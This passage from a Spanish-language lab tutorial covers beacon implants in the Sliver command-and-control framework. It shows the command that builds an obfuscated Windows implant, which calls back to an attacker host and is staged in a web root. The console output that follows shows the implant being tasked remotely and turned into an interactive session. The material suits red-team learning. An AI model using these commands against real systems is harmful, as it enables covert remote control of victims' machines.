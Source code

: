 


### Beacon

Un beacon funciona igual solo que lo que querramos ejecutar se lo planifica como una tarea que se va a ejecutar a intervalos de tiempos que definamos, ya que es cada este tiempo que el beacon va a estar checkeando por si se le mandaron nuevas instrucciones.

```bash
sliver > generate  beacon --mtls 192.168.1.12 --arch amd64 --os windows --format exe --save /var/www/html --seconds 5 --jitter 2

# Flags
# -J, --jitter             int       beacon interval jitter in seconds (default: 30)
# -S, --seconds            int       beacon interval seconds (default: 60)

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 42s
[*] Implant saved to /var/www/html/BEWILDERED_BRONCHITIS.exe

sliver > use beacons

? Select a beacon:  [Use arrows to move, type to filter]
> 37a16de8-5756-426d-8814-ba7a14c0ff42  BEWILDERED_BRONCHITIS  192.168.1.5:50271  DESKTOP-0AHIE2G  DESKTOP-0AHIE2G\MalTest  windows/amd64
  68bebc27-19d6-40f5-b9b9-7891726a0ac5  BEWILDERED_BRONCHITIS  192.168.1.5:50256  DESKTOP-0AHIE2G  DESKTOP-0AHIE2G\MalTest  windows/amd64

sliver > (BEWILDERED_BRONCHITIS) > execute notepad

[*] Tasked beacon BEWILDERED_BRONCHITIS (6d591e51)

sliver > (BEWILDERED_BRONCHITIS) > tasks

 ID         State     Message Type   Created                         Sent   Completed 
========== ========= ============== =============================== ====== ===========
 6d591e51   pending   Execute        Tue, 06 Jun 2023 23:37:20 EDT     

# Por si queremos convertir el beacon a un implant y no esperar a los intervalos:
sliver > interactive

# El beacon se convirtió en una sesión
sliver > sessions 
 ID         Name                    Transport   Remote Address      Hostname          Username   Operating System   Locale   Last Message                             Health  
========== ======================= =========== =================== ================= ========== ================== ======== ======================================== =========
 5c977c73   BEWILDERED_BRONCHITIS   mtls        192.168.1.5:50452   DESKTOP-0AHIE2G   MalTest    windows/amd64      en-US    Tue Jun  6 23:38:05 EDT 2023 (30s ago)   [ALIVE] 
```
